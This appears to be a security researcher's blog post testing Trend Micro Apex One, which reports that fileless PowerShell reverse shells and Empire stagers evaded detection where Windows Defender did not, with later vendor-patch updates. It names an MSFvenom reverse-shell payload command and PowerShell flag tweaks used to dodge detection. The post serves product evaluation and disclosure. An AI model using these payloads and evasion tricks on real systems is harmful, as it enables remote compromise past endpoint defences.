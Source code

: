 # Bypassing Trend Micro Apex One

![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

## Background

Here's the [solution brief](www.trendmicro.com/en_us/business/products/user-protection/sps/endpoint.html?modal=overview-apex-f2049a) about Apex One.

Obviously, a product like this isn't going to prevent bleeding-edge methods or techniques that are used to get around them. The same goes for customized payloads. For example, the simple reverse PowerShell script I wrote gets around Defender and AMSI in Windows 10 build 1903 as of June 7th. The art of bypassing anti-virus and EDR solutions is a whole other topic on its own that consists of individuals who know much more than I do when it comes to this type of stuff.

Before you ask, yes I did check the settings in the administration console. I double checked, triple checked, checked a fourth time, and then checked again for the hell of it. Other colleagues and individuals from Trend have checked the settings. I'm sure they would have told me to shove off by now and check again if it was something on my end.

![bms](Post%20Images/TMAO-Bypass-imgs/misc-imgs/BMS.PNG)
![scs](Post%20Images/TMAO-Bypass-imgs/misc-imgs/SCS.PNG)

## Testing

I wanted to test Apex One to see if it works as advertised, rather than setting it up, changing necessary settings and forgetting about it. For the sake of testing, the scenario was set in a situation in which an attacker had some sort of access to the machine. This could be a reverse shell via an exploit, recovered creds that allows for smblogin, login through RDP, etc. Needless to say, I was a bit shocked when I discovered how trivial it was to skate around Apex. Before I started testing, I had done enough research to know the basics or at least have a decent grasp on the thought process that went into the techniques of bypassing AV and EDR solutions. As expected, Apex was alerting and blocking anything malicious that touched the disk. However, things started going downhill when I started testing file-less payloads or ones that resided in memory only. Keep in mind I wasn't trying to get sophisticated or do anything advanced. All I was doing at this point was using well known and publicly available tools and frameworks and throwing them at my test machine to see if the agent would alert on it. All I wanted to do was to make sure it was stopping known or old payloads and tools.

### Tools and payloads that were used to bypass Apex One

* MSFvenom: cmd/windows/reverse_powershell lhost=\<attackip\> lport=\<attakport\>
* PowerShell Empire with http listener and launcher to generate the stager
* My custom reverse PowerShell script
* A random reverse [PowerShell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
* SilentTrinity


## MSFVenom cmd/windows/reverse_powershell

![msfv_1](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_kalivm.PNG)
![msfv_2](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/Win10Prod.PNG)
![msfv_3](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfvenom_payload.PNG)
![msfv_4](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/Win10Prod_rpsh_exec.PNG)
![msfv_5](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_bypass.PNG)
![msfv_6](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_bypass2.PNG)

## Observations & Anomalies

## PowerShell Empire

I worked with Trend to get a patch pushed out to specifically alarm on PowerShell Empire (they're still working on having Apex detect the MSFvenom cmd/windows/reverse_powershell payload). Apex received the patch on May 8th and I was still able to get around Apex with Empire. The relevant signature on detection is `HTTP-EMPIRE-3`. On the 23rd of May, Apex had for the first time in my environment, successfully prevented the callback to Empire. Everything was fine and dandy until on June 5th, I tested Apex again for the sake of consistency. Apex once again failed to prevent the callback the Empire instance running on my Kali machine. At this time I noticed that the IP on my Kali box had changed. Thus, began the trend of inconsistencies.

While testing after the 5th of June, I noticed three things. The first one is that changing the IP of my Kali machine looked like it had some role in Empire being successful again, but I highly doubt it would be that simple to outmaneuver and EDR solution like that. The second anomaly was the effect of base64 encoded payloads. When using the MSFvenom payload cmd/windows/reverse_powershell in conjunction with the Magic Unicorn payload generator from TrustedSec, Apex One was alerting on it. Apex seems to ignore it if I just straight up generate the payload with MSFvenom with no encoding. My basic knowledge of how AV and EDR technologies work leads me to believe that the engine is building a risk rating based on several factors or attributes associated with the PowerShell code. Since the PowerShell code is obfuscated via base64 encoding, it uses this information as one factor along with several other factors to determine whether or not it is harmful or suspicious. In this case, it correctly identified that the payload generated from the Magic Unicorn payload generator is indeed malicious. Before the May 8th patch, the opposite seemed to be occurring when using the base64 encoded PowerShell payload generated from the launcher command in Empire. With this in mind, I decided to decode the base64 encoded payload Empire produced. It seemed to have worked for a short while before Apex catched on and started blocking it.

The third and final anomaly that has been the most consistent in getting me around Apex since the update is simply changing the [flags](https://docs.microsoft.com/en-us/powershell/module/Microsoft.PowerShell.Core/About/about_PowerShell_exe?view=powershell-5.1). These flags are used with the `powershell` command before the base64 encoded payload body. Based on my observations during testing, Apex is very inconsistent when alerting on this method. Sometimes it will alert if I leave the default flags `powershell -w hidden -noP`. Sometimes it will alert if I tweak them. Sometimes it won't alert either way. I'm not exactly sure why this is though. My guess is that the *'machine learning'* component of Apex is not up to snuff and could use some more work. I even used some of the modules that Empire provided thinking that Apex would alert on those. Unfortunately, when using some of the modules like `powershell/privesc/ask`, Apex did not alert on any of them.

#### Default payload generation

![PSE_default_bypass](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/default2.PNG)
![PSE_default_privesc](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/privesc_success2.PNG)

#### Payload tweak & modification

Note the following: `powershell -executionpolicy unrestricted -nologo -noexit -noninteractive -encoded`

![PSE_mod](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/pse_tweak.PNG)


## A Shocking Revelation

During testing, I needed to gather metrics from other AV and EDR solutions to compare against Apex One. Why not start with Windows Defender in the latest Windows 10 Pro build? I created an ISO build 1803 (and later 1903 after testing a trial version of CrowdStrike Falcon Prevent), installed the latest updates for the operating system and definitions for Defender. The results shocked me, to say the least. You'd think a free, built-in AV that comes with Windows would be absolute trash, but it's quite the opposite. From my testing, Windows Defender and ASMI in build 1803 were able to block almost everything Apex One wasn't. It even blocked the aforementioned [PowerShell oneliner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) from the GitHub link.

![Github One-liner](Post%20Images/TMAO-Bypass-imgs/misc-imgs/amsi_github_oneliner.PNG)

However, I was able to get around it using my custom reverse PowerShell script (this was expected) and silenttrinity. Defender and ASMI did even better in build 1903 as it stone-walled everything except my custom reverse PowerShell script. I should state that more testing will need to be done with silenttrinity as I didn't receive a message from AMSI or Defender saying something malicious was going on. However, I did receive an error message telling me that the PowerShell stager with the embedded interpreter for the Boo Lang or Iron Python based payload and the MSBuild.xml stagers failed to build correctly. This could be due to changes in the Windows operating system itself in build 1903 or changes in PowerShell and the .NET framework. Furthermore, to rule out the environment as being the culprit of the issues with Apex One, I decided to unload and remove the Apex agent from a production workstation that wasn't important, let Defender take over and perform the same tests. Again, Defender stopped what Apex One couldn't.

# Updates

## Update #1: June 21st 2019

1. Currently, Apex One can be bypassed using simple or even very basic payloads that mostly reside in memory.
2. Currently, Apex One can be bypassed using exploit tools or frameworks that have aged well beyond the point where many would logically think that most vendors would have a solution to detect their signatures, etc.

* The majority of the payloads that I've created or generated and that have touched the disk were detected as they should be.
* By mere observation, it looks like Trend is having trouble detecting malicious code that runs in memory and in some way interacts with the .NET framework via a .NET language, etc.
* Furthermore, the current factors or attribute flags used to help the engine determine whether or not this code is malicious are simply not sufficient enough in **my opinion**.

## Update #2: June 28th 2019

Apex One seems to be consistently alerting on PowerShell Empire payloads in which I don't change or modify the default launcher value when setting up a listener. The same can also be said for payloads in which I've modified the flags with for the launcher command. It still does not explain the inconsistencies in detecting that were observed during testing. I should note that there was an update for the agent and the signature version shows `15.201.00`.
